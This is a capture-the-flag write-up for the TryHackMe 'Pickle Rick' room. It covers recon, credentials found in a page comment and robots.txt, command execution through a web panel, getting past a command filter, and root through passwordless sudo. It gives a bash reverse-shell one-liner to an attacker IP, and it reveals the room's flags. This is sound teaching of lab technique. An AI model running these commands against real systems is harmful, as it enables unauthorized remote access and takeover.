# Pickle Rick - TryHackMe Writeup

**link:** https://tryhackme.com/room/picklerick
**Description:** This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.
**Difficulty:** Easy
**Target IP:** `<TARGET_IP>`

---

## Setup

we all use the **TryHackMe AttackBox** - a browser-based Linux machine already connected to the TryHackMe network. no VPN, nothing to install.

1. open the room and click **Start Machine** (the target) - wait until its IP appears, that's `<TARGET_IP>`
2. click **Start AttackBox** at the top of the page - all commands below run in its terminal
3. tools used (nmap, curl, ffuf, gobuster, nc) are already installed on the AttackBox

---

## Recon

**nmap** is a network scanner - it shows us what ports and services are running on the target. `-sC` runs default scripts, `-sV` detects service versions.

```
nmap -sC -sV <TARGET_IP>
```



2 ports open, 1 filtered :
- **22/tcp** - SSH (OpenSSH 8.2p1 Ubuntu)
- **80/tcp** - HTTP (Apache 2.4.41)
- 3325/tcp - filtered active-net

http-title says "Rick is sup4r cool", we have a web server. let's check the page.



"Help Morty!" - Rick turned himself into a pickle and needs 3 secret ingredients. let's look at the source code.

### View Source

Ctrl+U on the page shows us the raw HTML :



line 28-34, HTML comment left by the developer :

```html
<!--
    Note to self, remember username!
    Username: R1ckRul3s
-->
```

ok cool, we have a username : **R1ckRul3s**

### robots.txt

**robots.txt** is a file that tells search engines what to crawl. sometimes developers hide things there. we check it with **curl** (command-line HTTP client) :

```
curl http://<TARGET_IP>/robots.txt
```



returns : **Wubbalubbadubdub** - looks like a password. now we need to find where to login.

> **why does this look important?** a normal robots.txt has rules like `User-agent: *` and `Disallow: /admin`. this one has none of that - just a single random word. that's not a crawler rule, someone put it there on purpose. and it's Rick's catchphrase, which fits the theme. we already have a username, so a strange lone word is a good password candidate.

### Directory Enumeration

we need to find hidden pages and files on the web server. we use two tools - pick whichever you have installed :

**option 1 - ffuf** (Go, fast fuzzer, replaces FUZZ in URL with each word from the wordlist) :

```
ffuf -u http://<TARGET_IP>/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc 200,301,302,403
```

**option 2 - gobuster** (Go, directory brute-forcer) :

```
gobuster dir -u http://<TARGET_IP> -w /usr/share/seclists/Discovery/Web-Content/common.txt
```





both tools find the same : assets, index.html, robots.txt, server-status. but no login page. we know there should be one somewhere - we have a username and password but nowhere to use them.

we noticed from nmap that the server runs **Apache** on Ubuntu. Apache commonly serves **PHP** pages. let's assume some pages have `.php` extensions and try again :

**ffuf with .php :**

```
ffuf -u http://<TARGET_IP>/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -e .php -mc 200,301,302,403
```

**gobuster with .php :**

```
gobuster dir -u http://<TARGET_IP> -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php
```



now we find 3 new files that were invisible before :
- **login.php** (200) - login page
- **portal.php** (302) - redirects to login (needs auth)
- **denied.php** (302) - access denied redirect

> **lesson learned :** always add file extensions (`-e .php` in ffuf, `-x php` in gobuster). without them we completely missed the login page.

---

## Exploitation

### Login

we go to `http://<TARGET_IP>/login.php` and login with the credentials we found :
- **Username:** R1ckRul3s (from HTML comment)
- **Password:** Wubbalubbadubdub (from robots.txt)



we get a **Command Panel** - direct OS command execution on the server. this is RCE (Remote Code Execution).

### Flag 1 - mr. meeseek hair

let's see what files are in the web directory :

```
ls
```



we see `Sup3rS3cretPickl3Ingred.txt` and `clue.txt`. let's read the ingredient :

```
cat Sup3rS3cretPickl3Ingred.txt
```



`cat` is blocked. the server has a command filter. we bypass it with **less** (alternative file reader) :

```
less Sup3rS3cretPickl3Ingred.txt
```



**Flag 1 : mr. meeseek hair**

let's check the clue :

```
less clue.txt
```



"Look around the file system for the other ingredient."

### Flag 2 - 1 jerry tear

we check what users exist on the system :

```
ls /home
```



two users : rick, ubuntu. let's check rick's home :

```
ls /home/rick
```



"second ingredients" file found :

```
less /home/rick/second\ ingredients
```

> **why the backslash?** the filename has a **space** in it. the shell splits arguments on spaces, so without `\` it would try to open two files : `/home/rick/second` and `ingredients` - both don't exist. `\ ` escapes the space so it's treated as part of the name. quotes work too : `less "/home/rick/second ingredients"`



**Flag 2 : 1 jerry tear**

### Flag 3 - fleeb juice (Privilege Escalation)

we check who we are running as :

```
whoami
```



we're **www-data** (the web server user, low privileges). let's check if we can escalate to root using **sudo** (run commands as another user, usually root) :

```
sudo whoami
```



returns **root** - sudo works without a password! this is a misconfiguration. let's use it :

```
sudo ls /root
```



3rd.txt found. let's read it :

```
sudo less /root/3rd.txt
```



**Flag 3 : 3rd ingredients: fleeb juice**

---

## Bonus - Reverse Shell

the command panel works but a proper shell is more flexible. **reverse shell** = the target connects back to us, giving us an interactive terminal.

we set up a **netcat** listener (nc listens for incoming connections) on our machine :

```
nc -lvnp 4444
```



in the command panel we execute a **bash reverse shell** - it opens a TCP connection back to us and redirects stdin/stdout/stderr through it :

```
bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1'
```

> **which IP is `<YOUR_IP>`?** the IP of your **AttackBox** - that's the machine the target connects back to. find it with `hostname -I` (first IP) in the AttackBox terminal. if you use your own machine with the OpenVPN config instead, it's the IP on `tun0` : `ip addr show tun0` (the `inet` line - like in the screenshot below). never your Wi-Fi/home IP - the target can't reach it.



and we get a reverse shell :



connection received. we're www-data. escalate to root :

```
sudo bash
whoami
```



**root.** full control over the machine.

---

## Summary

| # | Ingredient | Location | Method |
|---|---|---|---|
| 1 | mr. meeseek hair | /var/www/html/Sup3rS3cretPickl3Ingred.txt | less (cat blocked) |
| 2 | 1 jerry tear | /home/rick/second ingredients | less |
| 3 | fleeb juice | /root/3rd.txt | sudo less |

### Attack chain

1. **Recon** - nmap finds SSH + Apache
2. **Source code** - username in HTML comment (R1ckRul3s)
3. **robots.txt** - password (Wubbalubbadubdub)
4. **Directory enum** - ffuf/gobuster with .php extension finds login.php
5. **Login** - credentials work, command panel with RCE
6. **Command filter bypass** - cat blocked, less works
7. **Privilege escalation** - www-data can sudo without password
8. **Reverse shell** - bash reverse shell for full interactive access

### Key takeaways

- always check page source for HTML comments
- always check robots.txt
- always use file extensions in directory enumeration (-e / -x)
- if a command is blocked, try alternatives (less, head, tail, strings, xxd)
- check sudo permissions early (`sudo -l`)

---

## Tools used

| Tool | What it does |
|---|---|
| **nmap** | network scanner - finds open ports and services |
| **curl** | command-line HTTP client - makes web requests |
| **ffuf** | web fuzzer - brute-forces directories/files using wordlists |
| **gobuster** | directory brute-forcer - alternative to ffuf |
| **nc (netcat)** | network utility - listens for or creates TCP connections |

